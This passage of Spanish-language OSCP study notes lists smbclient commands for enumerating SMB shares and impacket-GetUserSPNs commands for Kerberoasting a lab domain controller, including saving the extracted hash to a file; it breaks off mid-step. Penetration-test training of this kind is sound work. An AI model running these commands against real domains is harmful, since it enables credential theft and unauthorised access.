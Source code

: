         ```jsx
        smbclient -L //10.10.10.20 -U oscp/wyldstyle
        ```
        
        - Ponemos la contraseña
        
        - Entrar en un directorio:
        
        ```jsx
        smbclient //10.10.10.20/setup -U oscp/wyldstyle
        ```
        
        - Ponemos la contraseña
    
    - Para hacer un ataque de Kerberoasting al DC usamos la herramienta de impacket:
        
        ```jsx
        impacket-GetUserSPNs oscp.lab/wyldstyle@10.10.10.100 -dc-ip 10.10.10.100
        ```
        
        - Ponemos la contraseña
    - También podemos mandar una request con impacket:
    
    ```jsx
    impacket-GetUserSPNs -request -dc-ip 10.10.10.100 oscp.lab/wyldstyle
    ```
    
    ![Untitled](Prepare%20Check%20List%203f2280f0f72a44d3a274379713148bba/Untitled%201.png)
    
    - Copiamos el hash entero en un archivo, `nano hashes`
    - Podemos usar otra vez el comando a ver si nos sale un nuevo usuario (as-rep kerberoasting)(ponemos el mismo comando que el anterior `impacket-GetUserSPNs -request -dc-ip 10.10.10.100 oscp.lab/wyldstyle`) y podemos probar a poner la contraeña o ponemos el hash entero en la password
        - Nos puede salir algo como esto:
        